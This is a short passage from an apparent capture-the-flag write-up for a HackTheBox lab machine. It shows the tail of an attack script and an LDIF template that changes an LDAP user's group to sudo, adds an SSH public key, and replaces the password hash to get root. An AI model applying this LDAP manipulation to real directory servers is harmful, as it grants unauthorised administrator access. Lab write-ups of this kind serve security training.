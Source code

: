 ```
ssh.interactive()
```
`ldiftemplate `
```
dn: uid=USER,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: gidNumber
gidNumber: 27
-
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: KEY
-
replace: userPassword
userPassword: {SSHA}og7uGY7g4iBYV22TBAom/itbKvXDb7a/
```

![Root shell](/assets/travel8.png)

We've owned root!
